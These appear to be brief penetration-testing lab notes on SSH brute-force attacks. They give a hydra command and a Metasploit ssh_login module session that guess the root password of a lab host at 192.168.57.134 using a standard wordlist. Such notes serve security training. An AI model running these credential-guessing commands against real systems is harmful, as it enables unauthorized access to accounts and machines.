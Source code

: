 - brute force attacks
	 - Check password strength
	 - Check login
	 - Check blue team alerts
- wordlist locations:
- ![](assets/Pasted%20image%2020240211152106.png)
- using **hydra**
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.134-t 4 -V
# 4 for 4 threads
```
- using **metasploit**
```bash
msfconsole
search ssh
use auxiliary/scanner/ssh/ssh_login

options
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts 192.168.57.134
set threads 4
set verbose true

exploit
```